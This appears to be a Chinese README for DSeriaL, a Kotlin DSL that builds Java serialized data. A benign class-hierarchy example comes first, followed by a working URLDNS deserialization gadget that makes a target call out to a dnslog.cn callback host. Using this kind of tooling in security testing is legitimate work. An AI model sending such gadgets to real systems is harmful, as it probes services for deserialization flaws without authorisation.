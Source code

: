 #+TITLE: DSeriaL (施工中)

DSeriaL 是用来构建 Java 序列化数据的 DSL(domain-specific language)，代码参考 [[https://github.com/Marcono1234/serial-builder][serial-builder]]

比如想要构建以下 Java 类的序列化数据：
#+begin_src java
public class HierarchyBase implements Serializable {
    public static final long serialVersionUID = 1L;

    public int i;

    public HierarchyBase(int i) {
        this.i = i;
    }
}

public class HierarchySub extends HierarchyBase {
    public static final long serialVersionUID = 1L;

    public char c;

    public HierarchySub(int i, char c) {
        super(i);
        this.c = c;
    }
}
#+end_src

可使用以下代码：
#+begin_src kotlin
Serial {
    descriptors {
        desc {
            type = HierarchySub::class.java
            uid = HierarchySub.serialVersionUID

            "c" type Char::class.java
        }
        desc {
            type = HierarchyBase::class.java
            uid = HierarchyBase.serialVersionUID

            "i" type Int::class.java
        }
    }
    slot { prims { intVal(5) } }
    slot { prims { charVal('a') } }
}
#+end_src

用 DSeriaL 构造 URLDNS Gadget：
#+begin_src kotlin
Serial {
    descriptors {
        desc {
            typeName = "java.util.HashMap"
            uid = 362498820763181265L
            flags = SC_SERIALIZABLE or SC_WRITE_METHOD

            "loadFactor" type Float::class.java
            "threshold" type Int::class.java
        }
    }
    slot {
        prims {
            floatVal(0.75f)
            intVal(12)
        }
        writeObject {
            it.write(byteArrayOf(0, 0, 0, 16, 0, 0, 0, 1))
            serialObj {
                descriptors {
                    desc {
                        typeName = "java.net.URL"
                        uid = -7627629688361524110L
                        flags = SC_SERIALIZABLE or SC_WRITE_METHOD

                        "hashCode" type Int::class.java
                        "port" type Int::class.java
                        "authority" type String::class.java
                        "file" type String::class.java
                        "host" type String::class.java
                        "protocol" type String::class.java
                        "ref" typeName "java.lang.String"
                    }
                }
                slot {
                    prims {
                        intVal(-1)
                        intVal(-1)
                    }
                    objs {
                        string("dserial.kyrvep.dnslog.cn")
                        string("")
                        string("dserial.kyrvep.dnslog.cn")
                        string("http")
                        nil()
                    }
                    writeObject {}
                }
            }
            string("http://dserial.kyrvep.dnslog.cn")
        }
    }
}
#+end_src
